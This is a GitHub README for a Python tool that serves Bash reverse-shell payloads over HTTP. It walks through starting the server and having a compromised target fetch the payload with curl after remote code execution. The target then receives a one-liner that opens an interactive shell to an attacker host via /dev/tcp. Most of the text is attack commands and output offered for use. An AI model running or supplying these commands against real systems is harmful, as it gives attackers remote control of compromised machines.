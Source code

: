 # RevServ
Serving Bash reverse-shell payload via http

## Usage
```bash
root@darkness:~# python3 reversv.py -h

   _____  _            _  _                                                 
  / ____|| |          | || |                                                
 | (___  | |__    ___ | || |  ______   ___   ___  _ __ __   __ ___  _ __    
  \___ \ | '_ \  / _ \| || | |______| / __| / _ \| '__|\ \ / // _ \| '__|   
  ____) || | | ||  __/| || |          \__ \|  __/| |    \ V /|  __/| |      
 |_____/ |_| |_| \___||_||_|          |___/ \___||_|     \_/  \___||_|      
  _               _____  _             ___           __          ____       
 | |             / ____|| |           / _ \         / /         / __ \      
 | |__   _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___ 
 | '_ \ | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \
 |_.__/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/
          __/ |                                                             
         |___/                                                              

Twitter:    https://twitter.com/Chr0x6eOs
Github:     https://github.com/Chr0x6eOs
____________________________________________________________________________
    
usage: revserv.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for http-server to listen
  ```

## How does it work?

1.) Start the server
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
```

2.) Issue command (e.g. through RCE)
The reverse-shell port (defaulted to 443) can be specified by the resource-path (e.g: /4444).
```bash
www-data@target:~$ curl 192.168.0.1/4444
```

3.) Program generates bash-reverse-shell
```bash
root@darkness:~# python3 revserv.py
[*] Serving bash-reverse-shell on 0.0.0.0:80...
[*] Served reverse-shell payload via http to 127.0.0.1!
Generate reverse-shell for port 4444!
```

4.) Payload gets send to target
```bash
www-data@target:~$ curl 192.168.0.1/4444
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```
